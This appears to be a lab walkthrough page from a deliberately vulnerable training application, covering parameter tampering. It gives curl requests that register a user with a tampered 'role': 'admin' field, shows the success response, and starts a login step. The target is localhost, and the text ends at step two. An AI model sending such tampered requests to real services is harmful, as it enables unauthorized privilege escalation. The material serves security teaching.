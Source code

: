 
## A03 - Injection (Parameter Tampering)

### 🎯 Overview

**Parameter tampering** and **injection** vulnerabilities occur when user-supplied input is not properly validated and can be used to manipulate application behavior or inject malicious code.

### 🔍 Vulnerability Location

- Registration endpoint: `/wcorp/api/register`
- User update endpoints: `/wcorp/api/user/update`
- Search and filter endpoints
- Any endpoint accepting user input

### 📖 How It Works

The application accepts user-supplied parameters without proper validation, allowing attackers to inject unexpected values or escalate privileges by tampering with parameters like `role`, `isAdmin`, etc.

### 🔓 Step-by-Step Exploitation

#### Step 1: Register with Role Escalation

```bash
# Attempt to register as admin by tampering with role parameter
curl -X POST http://localhost:3000/api/register \
  -H "Content-Type: application/json" \
  -d '{
    "username": "hacker",
    "password": "test123",
    "email": "hacker@test.com",
    "role": "admin"
  }'
```

**Response:**
```json
{
  "success": true,
  "message": "User registered successfully"
}
```

#### Step 2: Verify Admin Access

```bash
# Login with the new account
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{
    "username": "hacker",
    "password": "test123"
  }'
```

